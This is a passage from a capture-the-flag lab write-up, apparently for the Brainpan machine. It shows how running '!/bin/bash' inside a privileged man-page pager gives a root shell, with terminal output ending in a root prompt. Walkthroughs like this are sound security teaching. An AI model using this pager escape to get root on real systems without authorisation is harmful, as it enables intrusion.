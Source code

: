 In here, after quit the main page, we can execute `!/bin/bash` to run shell within the privilege.

``` bash
AUTHOR
       Written by Richard Mlynarik.

REPORTING BUGS
       Report whoami bugs to bug-coreutils@gnu.org
       GNU coreutils home page: <http://www.gnu.org/software/coreutils/>
 Manual page whoami(1) line 1 (press h for help or q to quit)!/bin/bash
!/bin/bash                                                                                                                                                                 
root@brainpan:/usr/share/man# whoami                                                                                                                                       
whoami                                                                                                                                                                     
root                                                                                                                                                                       
root@brainpan:/usr/share/man# 
```